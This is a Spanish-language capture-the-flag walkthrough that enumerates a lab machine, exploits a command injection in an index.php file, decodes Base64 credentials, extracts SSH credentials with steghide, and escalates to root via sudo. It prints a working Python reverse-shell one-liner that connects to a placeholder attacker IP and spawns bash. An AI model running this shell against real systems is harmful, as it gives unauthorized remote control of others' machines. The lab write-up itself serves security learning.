

## 1. Enumeración

### Escaneo inicial con Nmap

Comenzamos con la fase de escaneo de puertos utilizando la herramienta `nmap`:

```bash
nmap -sS -p- <IP-OBJETIVO>
```


Como podemos observar, encontramos **dos puertos abiertos**:

- **80/tcp**: HTTP
- **22/tcp**: SSH

---

### 1.1 Enumeración del puerto 80 (HTTP)

Utilizamos `gobuster` para realizar fuerza bruta a los directorios:

```bash
gobuster dir -u http://<IP-OBJETIVO> -w /usr/share/wordlists/dirb/common.txt
```

Resultados iniciales:


Encontramos el directorio `/assets`. Al ingresar, no se muestra nada útil.

Realizamos fuerza bruta dentro del directorio `assets`:

```bash
gobuster dir -u http://<IP-OBJETIVO>/assets -w /usr/share/wordlists/dirb/common.txt
```


Dentro del directorio `/assets`, encontramos un archivo `index.php`.

#### Enumeración con Dirsearch

Ejecutamos `dirsearch` para buscar más archivos o vulnerabilidades:

```bash
dirsearch -u http://<IP-OBJETIVO>/assets
```


Aquí detectamos una vulnerabilidad de **inyección de comandos** en `index.php`.

---

### 1.2 Explotación de la vulnerabilidad

Al interactuar con la vulnerabilidad, encontramos texto codificado en **Base64**. Usamos `CyberChef` para decodificarlo.



Una vez entendida la vulnerabilidad, procedemos a subir una **reverse shell** en Python:

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```


Logramos obtener acceso a la máquina.

---

### 1.3 Búsqueda de información

#### Archivos interesantes

Al explorar la máquina, encontramos un directorio con imágenes:


Copiamos las imágenes a nuestra máquina para analizarlas:

```bash
scp usuario@<IP-OBJETIVO>:/ruta/a/las/imagenes .
```

#### Contraseñas codificadas

También encontramos un archivo con una contraseña codificada en Base64:


Decodificamos la contraseña:

```bash
echo "<contraseña-codificada>" | base64 -d
```

---

### 1.4 Análisis de imágenes

Al analizar la imagen `0neforall.jpg`, observamos que tiene un error. Usamos `hexeditor` para inspeccionar su contenido:

```bash
hexeditor 0neforall.jpg
```


El encabezado indica que la imagen es de formato PNG. Corregimos el error cambiando el encabezado a JPG.


#### Extracción con Steghide

Usamos `steghide` para extraer datos ocultos de la imagen:

```bash
steghide extract -sf 0neforall.jpg
```


Obtenemos el usuario y contraseña para acceder al servicio SSH.

---

### 2. Conexión por SSH y escalada de privilegios

Nos conectamos por SSH con las credenciales extraídas:

```bash
ssh usuario@<IP-OBJETIVO>
```


#### Escalada de privilegios

Identificamos que el usuario puede ejecutar un script con privilegios elevados. Modificamos el archivo `sudoers` para agregar nuestro usuario con privilegios de superusuario:

```bash
sudo visudo
```

Finalmente, obtenemos acceso como **root** y la segunda bandera.


---

### Conclusión

Hemos completado el acceso inicial, la explotación y la escalada de privilegios, logrando obtener las banderas requeridas. ¡Buen trabajo!
